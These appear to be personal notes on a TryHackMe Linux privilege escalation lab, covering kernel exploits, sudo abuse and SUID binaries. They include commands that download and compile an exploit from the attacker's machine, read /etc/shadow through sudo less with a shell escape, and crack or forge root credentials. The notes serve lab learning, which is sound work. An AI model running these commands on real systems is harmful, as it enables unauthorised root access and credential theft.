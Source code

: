# TRYHACKME : LINUX PRIVILEGE ESCALATION

> NOTE from THM:Leave no privilege escalation vector unexplored, privilege escalation is often more an art than a science.

### Methods: 
- kernel exploit, 
- sudo, 
- capabilities, 
- SUID, 
- cron jobs, 
- PATH,
- NFS

## KERNEL EXPLOIT
lesson:
exploiting an existing vulnerability, or in some cases by accessing another user account that has more privileges, information, or access

### machine:
```
(download exploit from exploitdb CVE2015-1328)
python3 -m http.server 9000
```

### target machine:
```
wget http://machineip:9000/37292.c
gcc 37292.c -o ofc
./ofc
cat /home/matt/flag1.txt
```

## SUDO 
lesson: 
System administrators may need to give regular users some flexibility on their privileges. You may use sudo -l to current user's root privileges. Also leverage application functions and LD_PRELOAD (env_keep is enabled).

```
sudo -l
cat /home/ubuntu/flag2.txt
sudo less /etc/shadow
(add !/bin/sh in the :)
cat /etc/shadow
```

## SUID 
lesson:
SUID (Set-user Identification) and SGID (Set-group Identification) can alter a users file interaction to execute with a file or group owner permission level. Nano, for ex, is owned by root, meaning we can read and edit files at a highe privilege level than our current user has. When used find / -type f -perm -04000 -ls 2>/dev/null and find nano with 's' as the SUID special permission. You can use John the ripper can luckily crack passwords with passwd and shadow. Or use openssl to create new user with root privileges.
